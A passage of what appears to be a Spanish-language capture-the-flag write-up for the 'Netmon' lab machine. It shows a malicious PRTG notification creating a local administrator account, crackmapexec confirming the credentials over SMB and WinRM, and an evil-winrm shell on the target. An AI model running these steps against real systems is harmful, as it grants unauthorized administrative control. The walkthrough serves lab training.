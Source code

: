 ![5](/assets/img/machines/Netmon/5.jpeg)

Luego de crear la notificación, se utilizó la opción Send Test Notification para forzar la ejecución inmediata del comando configurado. Esto permitió que el usuario testing fuera creado y añadido al grupo de administradores locales sin necesidad de esperar un evento real.
![6](/assets/img/machines/Netmon/6.jpeg)

Para validar la creación del usuario con privilegios administrativos, utilicé crackmapexec con las credenciales configuradas en la notificación maliciosa. El comando confirmó que el usuario tiene acceso válido al sistema bajo el dominio netmon.
```bash
❯ crackmapexec smb 10.10.10.152 -u 'testing' -p 'test123!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\testing:test123! (Pwn3d!)
```

Posteriormente, se verificó el acceso mediante el servicio WinRM utilizando las mismas credenciales. El resultado con crackmapexec confirmó que el usuario testing tiene acceso válido a través de WinRM, lo que permite una conexión remota y control del sistema bajo el contexto de un usuario con privilegios administrativos.
```bash
❯ crackmapexec winrm 10.10.10.152 -u 'testing' -p 'test123!'
SMB         10.10.10.152    5985   NETMON           [*] Windows 10.0 Build 14393 (name:NETMON) (domain:netmon)
HTTP        10.10.10.152    5985   NETMON           [*] http://10.10.10.152:5985/wsman
HTTP        10.10.10.152    5985   NETMON           [+] netmon\testing:test123! (Pwn3d!)
```

Con las credenciales validadas, se estableció una conexión remota mediante evil-winrm. La sesión iniciada confirmó el acceso bajo el usuario netmon\testing, permitiendo ejecutar comandos de forma remota en la máquina objetivo y continuar con la explotación.
```bash
❯ evil-winrm -i 10.10.10.152 -u 'testing' -p 'test123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\testing\Documents> whoami
netmon\testing
```
